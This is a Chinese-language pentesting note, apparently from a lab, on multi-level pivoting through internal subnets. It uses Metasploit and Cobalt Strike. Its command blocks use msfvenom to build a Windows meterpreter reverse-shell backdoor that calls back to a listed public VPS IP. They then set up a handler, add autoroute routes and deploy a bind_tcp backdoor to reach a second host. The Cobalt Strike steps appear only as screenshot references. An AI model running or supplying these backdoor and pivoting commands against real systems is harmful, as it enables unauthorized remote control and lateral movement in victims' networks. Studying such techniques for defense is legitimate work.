 # 	多级代理

PC1：192.168.10.100

​	 192.168.20.100

PC2：192.168.20.111

​	 192.168.30.111

PC3：192.168.30.222

VPS：124.222.14.190

### MSF

1. PC1上线msf

   ```shell
   # VPS生成后门
   root@vps> msfvenom -p windows/x64/meterpreter/reverse_tcp lport=14444 lhost=124.222.14.190 -f exe -o 1.exe
   
   # VPS开启监听
   msf6> handler -p windows/x64/meterpreter/reverse_tcp -H 124.222.14.190 -P 14444
   
   # PC1上线
   PC1>./1.exe
   ```

   ![image-20220726015153468](../img/内网渗透-多级代理/image-20220726015153468.png)

2. 配置10网段和20网段路由

   ```shell
   meterpreter> run autoroute -s 192.168.10.0/24
   meterpreter> run autoroute -s 192.168.20.0/24
   ```

   ![image-20220726015902968](../img/内网渗透-多级代理/image-20220726015902968.png)

3. 生成正向代理后门

   ```shell
   # VPS生成后门
   root@vps> msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.20.111 lport=14444 -f exe -o 2.exe
   
   # PC2运行后门
   PC2> ./2.exe
   
   # VPS连接后门
   msf6> handler -p windows/x64/meterpreter/bind_tcp -H 192.168.20.111 -P 14444
   ```

   ![image-20220726074402913](../img/内网渗透-多级代理/image-20220726074402913.png)

4. PC2上线后配置30网段路由

   ```shell
   meterpreter> run autoroute -s 192.168.30.0/24
   ```

   ![image-20220726074619762](../img/内网渗透-多级代理/image-20220726074619762.png)

   ![image-20220726074809652](../img/内网渗透-多级代理/image-20220726074809652.png)

### cobalt strike

VPS生成后门

![image-20220726090219343](../img/内网渗透-多级代理/image-20220726090219343.png)

PC1上线CS

![image-20220726090302142](../img/内网渗透-多级代理/image-20220726090302142.png)

创建bind_tcp监听

![image-20220726090709231](../img/内网渗透-多级代理/image-20220726090709231.png)

生成正向beacon

![image-20220726090734419](../img/内网渗透-多级代理/image-20220726090734419.png)

PC2执行上线

![image-20220726090819992](../img/内网渗透-多级代理/image-20220726090819992.png)
